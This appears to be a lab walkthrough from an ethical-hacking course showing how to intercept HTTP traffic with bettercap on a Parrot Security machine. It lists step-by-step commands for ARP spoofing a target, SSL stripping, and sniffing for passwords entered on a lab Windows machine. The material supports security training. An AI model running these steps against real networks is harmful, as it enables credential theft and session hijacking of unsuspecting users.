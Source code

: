 ### Task 2: Intercept HTTP Traffic using bettercap

1. **Log in to Parrot Security Machine:**
   - Log in using the password `toor`.

2. **Open Terminal and Gain Root Access:**
   - Open the MATE Terminal and type:
     ```bash
     sudo su
     ```
   - Enter the password `toor`.

3. **Set Up bettercap:**
   - Start bettercap with:
     ```bash
     bettercap -iface eth0
     ```
   - Enable network probing and reconnaissance:
     ```bash
     net.probe on
     net.recon on
     ```

4. **Configure bettercap for MITM:**
   - Enable SSL stripping:
     ```bash
     set http.proxy.sslstrip true
     ```
   - Set ARP spoofing for the target:
     ```bash
     set arp.spoof.targets 10.10.1.11
     ```
   - Start the HTTP proxy and ARP spoofing:
     ```bash
     http.proxy on
     arp.spoof on
     ```

5. **Sniff Network Traffic:**
   - Start sniffing network packets:
     ```bash
     net.sniff on
     ```
   - Filter for credentials:
     ```bash
     set net.sniff.regexp '.*password=.+'
     ```

6. **Capture Credentials:**
   - On the Windows 11 machine, open Firefox and navigate to `http://www.moviescope.com`.
   - Log in with any credentials (e.g., `sam/test`).
   - Return to the Parrot Security machine to view captured credentials.

7. **Terminate bettercap:**
   - Press `Ctrl+C` to stop bettercap and confirm the termination.

### Conclusion
This lab demonstrated how to perform session hijacking using ZAP and bettercap, highlighting the importance of understanding these techniques for ethical hacking and penetration testing. Document all acquired information for further analysis.